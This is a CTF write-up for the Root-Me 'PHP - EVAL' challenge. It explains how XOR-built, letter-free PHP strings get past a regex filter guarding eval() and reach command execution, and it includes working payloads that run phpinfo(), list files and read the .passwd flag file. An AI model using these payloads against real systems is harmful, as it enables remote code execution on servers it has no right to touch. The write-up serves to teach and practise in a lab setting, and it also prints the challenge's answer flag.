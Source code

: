```yaml
---
title: "PHP - EVAL - Advanced Filter Bypass | Rootme"
date: 2024-04-17
categories: [CHALLENGES, PHP - EVAL]
tags: [CHALLENGES, CTF] 
---
```



Hello, In this Writeup, I will explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

## Challenge Source Code Analysis.
```php
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```

The PHP script first checks whether a POST parameter named `input` is present. If the input does not contain letters or backticks, it is evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, the script issues a warning: "Dangerous code."

## Spotting the bug.
After some research on Google, I discovered a method to bypass this filter, which is **Bypass using Non-alphabetical Character Encoding.** Let's discuss it, and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run PHP code easily and quickly. In PHP, we can use the XOR operator between characters (not just numbers) to generate a different character.

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

## Manuel Exploiting.
So, here's the idea behind our attack: what if we could reproduce an alphabetical character by xoring two non-alphabetical characters? How can we achieve this?

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you XOR this result with one of the original numbers, you'll get the third number.

For example, let's say we want to produce the character s by XORing two unknown characters.

Steps to perform the attack:
- Get the ASCII decimal value of the letter **s**, which is 115, using the ord() function in Python.

- Select a random non-alphabetical character, such as **@**, and get its ASCII decimal value, which is 64.

- XOR these two decimal values and convert the result into a character using the chr() function in Python.

- Check if the resulting character is alphabetical. The goal is to ensure the character is non-alphabetical, so it can bypass the filter.

- Finally, XOR the random non-alphabetical character with the number obtained from the XOR operation, which will give us the letter we need.


![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

I can now try this payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

## Automated Exploitation.
Nice, we can now automate this process using python, I write a simple python script to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```python
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
**How can we call this payload as a function?**

In PHP, if we declare `$__` as a variable and store the generated string from the tool in it, we can call it as `$__();` to execute it as a PHP function. We can use it like this:
```php
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

we can use payload like this:  `system("ls -la")` to run system commands

```php
$_1 = (","^"@").("("^"[");
$_2 = "-"; 
$_3 = (","^"@").("!"^"@"); 
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");  
$__($_1 . " " . $_2 . $_3);
```

Good, Command executed and flag inside `.passwd` file. 

![img_screenshot4](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/4555d2f6-6ab0-472d-9f54-552cfa6a62ff)


We can now generate payload like : `system("cat .passwd")` to get the flag.

```php
$_1 = ("#"^"@").("!"^"@").(")"^"]");
$_2 = ("+"^"[").("!"^"@").("("^"[").("("^"[").("("^"_").("$"^"@");
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");
$__($_1 . " " . "." . $_2);
```
and Finally here is our flag : `M!xIng_PHP_w1th_3v4l_L0L`

![img_screenshot5](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/6ad9a53d-60af-4421-836b-6a9dc2be8e77)


Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)
